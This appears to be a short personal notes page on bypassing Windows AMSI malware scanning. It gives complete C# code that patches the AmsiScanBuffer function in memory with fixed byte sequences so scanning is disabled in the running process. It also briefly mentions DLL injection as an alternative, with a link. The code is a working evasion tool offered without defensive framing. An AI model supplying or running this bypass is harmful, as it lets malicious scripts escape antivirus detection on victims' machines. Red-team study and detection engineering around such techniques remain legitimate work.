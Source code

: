 ## Internal DLL Patching
Current PowerShell process patch
https://github.com/rasta-mouse/AmsiScanBufferBypass

```powershell
using System;
using System.Runtime.InteropServices;

public class AmsiBypass
{
    public static void Execute()
    {
        // Load amsi.dll and get location of AmsiScanBuffer
        var lib = LoadLibrary("amsi.dll");
        var asb = GetProcAddress(lib, "AmsiScanBuffer");

        var patch = GetPatch;

        // Set region to RWX
        _ = VirtualProtect(asb, (UIntPtr)patch.Length, 0x40, out uint oldProtect);

        // Copy patch
        Marshal.Copy(patch, 0, asb, patch.Length);

        // Restore region to RX
        _ = VirtualProtect(asb, (UIntPtr)patch.Length, oldProtect, out uint _);
    }

    static byte[] GetPatch
    {
        get
        {
            if (Is64Bit)
            {
                return new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
            }

            return new byte[] { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00 };
        }
    }

    static bool Is64Bit
    {
        get
        {
            return IntPtr.Size == 8;
        }
    }

    [DllImport("kernel32")]
    static extern IntPtr GetProcAddress(
        IntPtr hModule,
        string procName);

    [DllImport("kernel32")]
    static extern IntPtr LoadLibrary(
        string name);

    [DllImport("kernel32")]
    static extern bool VirtualProtect(
        IntPtr lpAddress,
        UIntPtr dwSize,
        uint flNewProtect,
        out uint lpflOldProtect);
}
```


## External DLL Patching
Process injection to hook AmsiScanBuffer

dll injection https://x64sec.sh/understanding-and-bypassing-amsi/
seems easier to just overwrite the function instead of injecting a dll..... get VT link for sample